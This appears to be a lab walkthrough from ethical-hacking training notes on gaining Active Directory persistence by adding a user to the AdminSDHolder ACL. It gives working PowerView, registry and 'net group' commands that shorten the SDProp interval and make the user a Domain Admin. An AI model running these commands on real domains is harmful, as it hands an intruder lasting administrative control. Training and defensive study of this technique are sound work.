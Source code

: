 # Exploiting Active Directory Objects

**AdminSDHolder** is an Active Directory container with the default security permissions, it is used as a template for AD accounts and groups, such as Domain Admins, Enterprise Admin, etc. to protect them from unintentional modification of permissions.

If a user account is added into the access control list of **AdminSDHolder**, the user will acquire “**GenericAll**” permissions which is equivalent to domain administrators.

1. create the payload and upload to target then set up the listener
2. upload **PowerTools-Master** folder to the target system.

{% embed url="https://github.com/PowerShellEmpire/PowerTools?tab=readme-ov-file" %}

3. Access the target shell, then go to `C:\WIndows\System32` , type `powershell`&#x20;

As we have access to PowerShell access with admin privileges, we can add a standard user Martin in the CEH domain to the AdminSDHolder directory and from there to the Domain Admins group, to maintain persistence in the domain.

4. Navigate to `C:\Users\Administrator\Downloads\PowerView`where the folder we upload before, type `Import-Module ./powerview.psm1`&#x20;
5. To add user named **Martin** to ACL, type `Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName Martin -Verbose -Rights All`&#x20;
6. To check the permissions assigned to **Martin**, type: `Get-ObjectAcl -SamAccountName "Martin" -ResolveGUIDs`&#x20;

We can see that user Martin now has GenericAll active directory rights. Normally that changes in ACL will propagate automatically after 60 minutes, we can enter the following command to reduce the time interval of SDProp to 3 minutes.

```
REG ADD HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /V AdminSDProtectFrequency /T REG_DWORD /F /D 300
```

> (Microsoft doesn’t recommend the modification of this setting, as this might cause performance issues in relation to LSASS process across the domain.)

7. Add user **Martin** to **Domain Admins** group as he is already having all the permissions. `net group "Domain Admins" Martin /add /domain`&#x20;
8. To verify it, log as **Martin** and in cmd try access `dir \\[ip domain]\C$` will list the C:/ Drive.

We can see that the Domain Controller is now accessible to Martin and thus domain persistence has been established. Can also use the additional commands in the table below to extract sensitive information such as users, groups, domains, and other resources from the target AD environment.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
